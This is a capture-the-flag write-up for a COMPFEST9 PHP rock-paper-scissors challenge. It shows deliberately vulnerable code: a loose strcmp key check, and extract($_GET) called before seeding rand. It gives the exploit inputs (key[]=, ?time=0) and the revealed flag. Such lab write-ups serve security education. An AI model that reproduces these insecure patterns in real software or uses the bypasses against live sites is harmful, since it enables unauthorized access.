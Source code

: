 GBK (100)
=========

## Description
From wikipedia:

> Rock-paper-scissors is a hand game usually played between two people, in which each player simultaneously forms one of three shapes with an outstretched hand. These shapes are "rock", "paper", and "scissors". A zero-sum game, it has only two possible outcomes other than a tie: one player wins, and the other player loses.

[http://tenjin.compfest.web.id:10137/](http://tenjin.compfest.web.id:10137/)

**access.php**

```php
<?php
  $secret_key = '_______________';
  $access = false;
  if (isset($_GET['key'])) {
    $key = $_GET['key'];
    if (strcmp($key, $secret_key) == 0) {
      $access = true;
    }
  }

?>
<link rel="stylesheet" href="style.css">

<br><br><br>

<div class="container">

  <div class="info">
    <p>Hello, Developer!</p>
    <p>Please enter the key to access the game source code</p>
  </div>
  <br>
  <form action="" method="GET">
    <center>
      <input type="text" name="key" placeholder="key">
      <input type="submit">
    </center>
  </form>

  <?php if($access): ?>
    <div class="info large">
      <iframe src="play.php.sourcecode.txt" frameborder="0" style="width: 100%; height: 300px"></iframe>
    </div>
  <?php endif; ?>

</div>
```

## Write up
- From [a user comment in PHP strcmp manual](http://php.net/manual/en/function.strcmp.php#108563):

> If you rely on strcmp for safe string comparisons, both parameters must be strings, the result is otherwise extremely unpredictable.
> `strcmp("foo", array()) => NULL + PHP Warning`

- We can exploit this to bypass the secret key comparison as a null can be seen as a zero because a `==` is an equal comparison with type juggling
- Thus if you visit `/access.php?key[]=` it will show the source code for `index.php`:

```php
<?php
  session_start();

  $time = time();
  extract($_GET);

  srand($time);
  $enemyAction = getAction(rand());

  if (!isset($_SESSION['nWin']))
    $_SESSION['nWin'] = 0;

  if (isWin($yourAction, $enemyAction)) {
     $_SESSION['nWin']++;
  } else {
     $_SESSION['nWin'] = 0;
  }

  function getAction($i) {
    if ($i % 3 == 0) return "Gunting";
    else if ($i % 3 == 1) return "Kertas";
    else return "Batu";
  }

  function isWin($action, $enemy) {
    if ($action == "Gunting") {
      return ($enemy == "Kertas");
    } else if ($action == "Kertas") {
      return ($enemy == "Batu");
    } else if ($action == "Batu") {
      return ($enemy == "Gunting");
    }
  }

?>

<link rel="stylesheet" href="style.css">

<br><br><br>

<div class="container">
  <form action="" method="GET">
    <center>
    <input type="submit" name="yourAction" value="Gunting">
    <input type="submit" name="yourAction" value="Kertas">
    <input type="submit" name="yourAction" value="Batu">
    </center>
  </form>

  <div class="info">
    <?php
      echo "Enemy Action: " . $enemyAction;
      echo "<br>";
      echo "Your Action: " . $yourAction;
      echo "<br><br>";
      echo ($win ? "You win!!" : "You lose!!");
      echo "<br>";
      echo "Number of consecutive win: " . $_SESSION['nWin'];
      echo "<br>";
      if ($_SESSION['nWin'] > 20) echo "COMPFEST9{-----[REDACTED]-----}";
    ?>
  </div>

  <center>
    <p>
      If you are a developer, <a href="access.php">click here</a>
    </p>
  </center>
</div>
```

- We can see that it use `rand()` to generate random action, and it is seeded with `$time` variable
- However before it was seeded, an `extract($_GET)` which is [evil](https://stackoverflow.com/questions/829407/what-is-so-wrong-with-extract)
- We can then specify the seed, for example 0, through adding `?time=0` in the url and thus we get: `/?yourAction=Gunting&time=0` where we always win
- Refreshing the page 21 times will get us the flag: `COMPFEST9{php_is_full_of_vulnerabilities}`
